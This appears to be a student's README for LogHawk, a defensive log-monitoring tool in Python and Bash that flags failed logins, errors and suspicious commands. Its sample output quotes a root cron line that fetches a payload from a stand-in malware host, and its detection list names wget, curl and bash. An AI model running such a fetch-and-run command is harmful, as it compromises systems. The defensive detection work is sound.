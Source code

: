 
# 🦅 LogHawk

LogHawk is a lightweight, open-source log monitoring tool built in both Python and Bash. It automates the detection of suspicious activity in system and web logs, helping security teams identify threats like brute-force attacks, critical errors, and malicious scripts before they become incidents. It scans system and application logs for:

- 🛑 Failed login attempts
- ⚠️ Unusual traffic spikes
- 🔥 Critical system errors
- 🦠 Suspicious script activity


## ⚙️ Installation
Before using LogHawk, make sure you have Python 3 installed. You can install it by running: 

```bash
sudo apt-get install python3
```
Clone the repo and make scripts executable:
```bash
git clone https://github.com/Lintageorge7/LogHawk.git
cd LogHawk
chmod +x loghawk.sh
chmod +x loghawk.py
```
## 🐍 Usage (Python)

```bash
python3 loghawk.py Sample_logs/auth.log
```

## 📤 Example Output
```bash
[🔐] Detecting failed logins...
⚠️  6 failed login attempts from 192.168.1.101
[🌐] Detecting traffic spikes...
[🔥] Detecting system errors...
❗ Jul 14 08:14:30 systemd[1]: ERROR - Disk full
❗ Jul 14 08:14:45 app[1001]: CRITICAL - Kernel panic
[🦠] Detecting suspicious script activity...
🚩 Suspicious: Jul 14 08:14:01 cron[5678]: (root) CMD (wget http://malware.site/payload.sh)
```

## 💻 Usage (Bash)
```bash
./loghawk.sh Sample_logs/system.log
```

## 📸 Sample Output Screenshot


## 🧠 Threats Detected
LogHawk currently detects:

 • 🔐 Failed Login Attempts — Flags 5+ failed logins per IP (MITRE T1110)

 • 🔥 Critical System Errors — Catches “ERROR” and “CRITICAL” entries in logs

 • 🦠 Suspicious Script Activity — Identifies malicious command use (wget, curl, bash)

 • 🌐 Traffic Spikes — High request volume from single IPs (future iteration)

All detections act as potential Indicators of Compromise (IoCs).

## ⏱️ Automation Setup

### 🐧 Linux (Cron)
Run every 10 minutes:
```bash
crontab -e
*/10 * * * * /home/student/LogHawk/loghawk.sh /var/log/auth.log
```

## 🪟 Windows: Task Scheduler

To schedule LogHawk on Windows:

1. Open Task Scheduler → Create Basic Task

2. Trigger: Every 10 minutes

3. Action: Start a program
    
 •  Program: python

 •  Arguments: C:\path\to\loghawk.py C:\logs\auth.log

## 📂 Project Structure

```bash
LogHawk/

├── loghawk.py        # Python version
├── loghawk.sh        # Bash version
├── sample_logs/      # Test log files
├── screenshots/      # Images for report/README
├── README.md         # This file
└── LogHawk_Report.md # Final report (optional: .pdf)
```

## 🧪 Sample Logs

Sample logs are located in the sample_logs/ folder for testing:

• auth.log

• access.log

• system.log


## 🔄 Future Improvements
 
 • Email/SMS alerting

 • Log filtering thresholds

 • JSON/CSV export

 • Web UI dashboard

 • Integration with ELK or Splunk

## 📚 References

 • MITRE ATT&CK: https://attack.mitre.org/ 

 • NIST Log Management Guidelines: https://csrc.nist.gov/publications 

 • Red Hat: Log Files and Monitoring: https://access.redhat.com  

## 🤝 Contributing
Pull requests are welcome. If you have improvements or new detection rules, feel free to contribute!

## 📄 License
This project is licensed under the MIT License.

## 👩‍💻 Author
Linta Susan George
Cybersecurity Student @ Lighthouse Labs | 🇨🇦
